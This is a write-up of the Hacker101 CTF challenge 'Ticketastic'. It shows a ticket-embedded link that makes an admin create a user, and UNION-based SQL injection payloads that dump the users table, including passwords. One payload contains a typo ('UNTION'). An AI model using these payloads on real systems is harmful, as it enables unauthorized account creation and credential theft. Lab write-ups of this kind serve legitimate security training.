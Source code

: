 
## # Ticketastic: Live Instance (Hacker101)
Hacker101 CTF
Difficulty: Moderate
Categories: blind XSS(?), SQL injection

## Steps FLAG0
Based on the "Demo Instance" challenge, we can examine the /newUser  and /newTicket function. New users are added with this parameter ``/newUser?username=wiener&password=test&password2=test``.

Hence, we can construct a script and send it via the ticket submission. The goal is that the admin will click the ticket and executing the script.
```
<a href="http://localhost/newUser?username=wiener&password=peter&password2=peter">test</a>
``` 
Once the ticket is submitted, we can login with the user we just created. 

## Steps FLAG1
Playing with the /ticket endpoint, I got an SQL error which means it is vulnerable to SQL injection. A UNION option is useful to examine the database.

Find number of table columns:
```
/ticket?id=1.1 UNTION SELECT 1,2,3--
```
Now we know that there are 3 columns, we can examine the database version and the schemas:
```
/ticket?id=1.1UNION SELECT VERSION(),DATABASE(),3--
```
**Result:** 10.1.37-MariaDB-0+deb9u1, level7
Now that we know the database name, we can continue to search for tables, columns, and data. 
```
/ticket?id=1.11 UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME),3 FROM information_schema.COLUMNS WHERE TABLE_NAME='users'--
```
**Result:** id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
```
/ticket?id=1.11 UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME),3 FROM information_schema.COLUMNS WHERE TABLE_NAME='tickets'--
```
**Result:** id,title,body,reply
```
/ticket?id=1.11 UNION SELECT id,username,password FROM users--
```
**Result:** FLAG1


## References:
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
